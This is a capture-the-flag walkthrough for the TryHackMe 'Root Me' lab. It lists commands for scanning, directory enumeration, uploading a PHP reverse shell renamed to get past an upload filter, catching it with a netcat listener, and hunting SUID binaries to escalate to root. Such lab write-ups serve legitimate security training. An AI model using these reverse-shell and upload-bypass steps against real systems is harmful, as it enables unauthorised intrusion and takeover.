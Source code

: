 # TryHackMe: Root Me Challenge Walkthrough

## Setup

1. Sign up for TryHackMe: https://tryhackme.com
2. Download OpenVPN configuration file from your profile
3. Connect to TryHackMe VPN:
   ```
   sudo openvpn [your-openvpn-config-file].ovpn
   ```

## RootMe Steps

1. Deploy the machine and get the IP address

2. Perform initial recon:
   ```
   nmap -sV -sC -oA nmap_scan_results [IP_ADDRESS]
   ```

3. Check open ports (usually 22 for SSH and 80 for HTTP)

4. Open the IP in a web browser to view the website

5. Run directory enumeration:
   ```
   gobuster dir -u http://[IP_ADDRESS] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   ```

6. Identify upload functionality and restrictions

7. Prepare a PHP reverse shell:
   - Use the PHP reverse shell from PentestMonkey
   - Modify the IP address to your TryHackMe VPN IP
   - Change the port to 1337

8. Rename the PHP file to bypass upload restrictions (e.g., shell.php5)

9. Set up a netcat listener:
   ```
   nc -lvnp 1337
   ```

10. Upload the PHP reverse shell and access it through the /uploads directory

11. Stabilize the shell:
    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

12. Find and read the user flag:
    ```
    cat /var/www/user.txt
    ```

13. Privilege escalation:
    - Check for SUID binaries:
      ```
      find / -perm -u=s -type f 2>/dev/null
      ```
    - Identify and exploit the vulnerable SUID binary

14. Read the root flag:
    ```
    cat /root/root.txt
    ```

## Tips

- Use `alias ll='ls -la'` for easier directory listing
- Save flags to local files for easy submission
- Always stabilize your shell for better usability

Remember to submit the flags on the TryHackMe platform to complete the challenge!